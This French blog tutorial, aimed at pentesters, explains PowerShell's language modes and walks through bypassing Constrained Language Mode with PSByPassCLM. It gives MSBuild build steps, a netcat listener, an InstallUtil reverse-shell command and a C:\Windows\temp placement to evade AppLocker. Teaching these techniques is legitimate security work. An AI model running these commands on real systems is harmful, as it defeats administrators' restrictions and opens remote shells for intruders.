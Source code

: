 ```yaml
---
title: "[CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y'a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) ou en français (Stratégies de groupe) dans un environnement `Active Directory`.

![Flower](https://image.noelshack.com/fichiers/2019/23/2/1559643342-screenshot-1.png)

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée (1)  : Pour le `FullLanguage`. <br />
Donnée (2) : Pour le `RestrictedLanguage`. <br />
Donnée (3) : Pour le `NoLanguage`. <br />
Donnée (4) : Pour le `ConstrainedLanguage` <br />

DEMONSTRATION
----

Actuellement je suis en mode `FullLanguage`. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement d'après l'information je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc.. Notre but maintenant c'est de changer de mode de `LANGAGE` passer de `ConstrainedLanguage` à `FullLanguage` pour effectuer des actions sur le système avec la session PowerShell. 

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.

